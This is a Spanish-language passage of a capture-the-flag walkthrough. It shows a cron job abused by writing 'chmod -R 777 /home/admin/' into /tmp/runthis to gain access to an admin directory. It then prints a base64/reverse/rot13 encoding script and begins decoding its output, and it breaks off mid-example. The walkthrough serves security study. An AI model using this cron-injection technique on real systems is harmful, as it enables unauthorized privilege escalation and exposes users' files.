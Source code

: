 ```bash
Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```
Según la nota, disponemos de un conjunto de comandos que podemos utilizar, pero están restringidos a ciertos binarios específicos en /usr/bin*. Debemos crear un script en /tmp/runthis que se ejecute cada minuto, y la salida de cada comando debe guardarse en /tmp/cronresult con los privilegios de la cuenta de Jerry
```bash
echo "/home/admin/chmod -R 777 /home/admin/" >> /tmp/runthis
```
Después de ejecutar este comando, el archivo /tmp/runthis contendrá /home/admin/chmod -R 777 /home/admin/. Y como runthis se ejecuta cada minuto, obtenemos acceso al directorio /admin
```bash
cat /tmp/runthis
/home/admin/chmod -R 777 /home/admin/
```
```bash
bash-4.1$ cd /home/admin
cd /home/admin
bash-4.1$ ls
ls
cat    cronjob.py       cryptpass.py  echo   grep  whoisyourgodnow.txt
chmod  cryptedpass.txt  df            egrep  ps
```
Si intentamos visualizar alguno de estos archivos, nos daremos cuenta de que están codificados
```bash
cat whoisyourgodnow.txt
=RFn0AKnlMHMPIzpyuTI0ITG

cat cryptedpass.txt
mVGZ3O3omkJLmy2pcuTq
```
cryptopass.py es responsable de codificar el texto. Al revisar este script de Python, podemos observar que primero el string se codifica en base64, luego esta cadena codificada se invierte y finalmente se aplica una codificación rot13 a la cadena invertida
```bash
cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```
Para decodificar estos archivos, utilizaremos la lógica que usa este script, pero de manera inversa  

## Decodificar con python
Para decodificar la cadena con Python, lo ejecutaremos y lo primero que haremos será importar los módulos necesarios
```python
>>> import base64,codecs,sys
```
Definimos la cadena de texto codificada en base64
```python
>>> in_string = "=RFn0AKnlMHMPIzpyuTI0ITG"
```
Invertimos la cadena 'in_string', es decir, la ordenamos en sentido inverso y la guardamos en 'in_string_1'
```python
```